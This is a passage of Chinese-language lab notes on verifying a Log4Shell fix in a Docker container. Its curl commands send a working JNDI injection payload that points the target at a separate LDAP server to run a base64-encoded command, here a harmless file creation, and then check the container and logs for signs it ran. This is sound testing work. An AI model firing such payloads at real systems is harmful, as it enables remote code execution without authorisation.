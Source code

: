 #### 2. 测试漏洞

发送一个与利用时使用的测试负载类似的请求：

```bash
# 发送带有JNDI查找的测试负载
curl -X GET "http://10.37.133.3:47147/hello?payload=  \${jndi:ldap://10.37.132.3:1389/Basic/Command/Base64/dG91Y2ggL3RtcC90ZXN0X2V4cGxvaXQK}"
```

如果执行此负载，它将尝试在 `/tmp/test_exploit`处创建一个文件。

### 如何验证：

```bash
# 检查应用程序是否仍能正常运行（应返回正常响应）
curl -X GET "http://10.37.133.3:47147/hello?payload=\${jndi:ldap://10.37.132.3:1389/Basic/Command/Base64/dG91Y2ggL3RtcC90ZXN0X2V4cGxvaXQK}"
```

![1742796931976](image/网络安全丁梦/1742796931976.png)

```bash
# 连接到容器以检查利用命令是否被执行
docker exec -it musing_lichterman /bin/bash
ls -la /tmp/test_exploit  # 如果修复有效，此文件不应存在
```

![1742796893667](image/网络安全丁梦/1742796893667.png)

### 额外验证：

检查应用程序日志以获取修复的证据：

```bash
# 查看应用程序日志
docker logs musing_lichterman | grep -i jndi
```

![1742796975349](image/网络安全丁梦/1742796975349.png)
